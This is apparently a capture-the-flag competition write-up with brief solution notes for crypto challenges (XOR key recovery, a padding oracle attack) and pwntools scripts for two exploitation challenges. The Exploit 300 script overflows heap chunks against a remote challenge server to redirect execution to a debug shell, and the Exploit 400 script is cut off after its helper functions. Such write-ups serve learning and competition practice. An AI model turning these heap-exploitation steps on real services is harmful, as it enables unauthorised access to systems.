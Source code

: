 A character appears max 1 time.

Path of subtraction:
hacker image red capital letters removed.  
typos within 400 challenges descriptions removed.  
was able to narrow alphabet to: FQXcjkpx1379%&@  
and crack it after several hours.  

# Crypto 300 - Overall a Flop
Read for several hours articles about ECC for nothing.   
Tried to brute force the private key for nothing.    
Discovered in the end that ciphertext contains unusual amount of 8a.  
split text by 8a, then xor with initial poctf to discover xor key is 55.  

# Crypto 300 - Honor the Carneia
Classical padding oracle attack, can discover two last blocks of the flag.  
First block missing last 3 chars, but upon trying to look for the sentence on google and challenge description,  
reveals its a famous quote by Marcus Aurelius.  

# Exploit 300 - The Trash Heap Has Spoken
```python
from pwn import *

exe = context.binary = ELF(args.EXE or './Exploit300-2')
io = remote('34.123.210.162', 32017)

io.sendlineafter(b"(or 'done' to finish)",b"a"*0x3f)
io.sendlineafter(b"(or 'done' to finish)",b"b"*0x27)
io.sendlineafter(b"(or 'done' to finish)",b"c"*0x7)
io.sendlineafter(b"(or 'done' to finish)",b"d"*0x7f)
io.sendlineafter(b"(or 'done' to finish)",b"a"*0x3f)
io.sendlineafter(b"(or 'done' to finish)",b"b"*0x27)
io.sendlineafter(b"(or 'done' to finish)",b"c"*0x7)
io.sendlineafter(b"(or 'done' to finish)",b"d"*0x7f)
io.sendlineafter(b"(or 'done' to finish)",b"done")

payload = b"x"*0x40
payload += p64(0) + p64(0x31)
payload += p64(exe.sym.debug_shell)

io.sendlineafter(b"expedition?:",payload)
io.interactive()
```

# Exploit 400 - Imperfect, Impermanent, and Incomplete
```python
from pwn import *


def alloc(size, data):
    io.sendlineafter(b"Choice:", b"1")
    io.sendlineafter(b"secret:", str(size).encode())
    io.sendlineafter(b"secret:", data)


def free(index):
    io.sendlineafter(b"Choice:", b"2")
    io.sendlineafter(b"(ID#):", str(index).encode())

```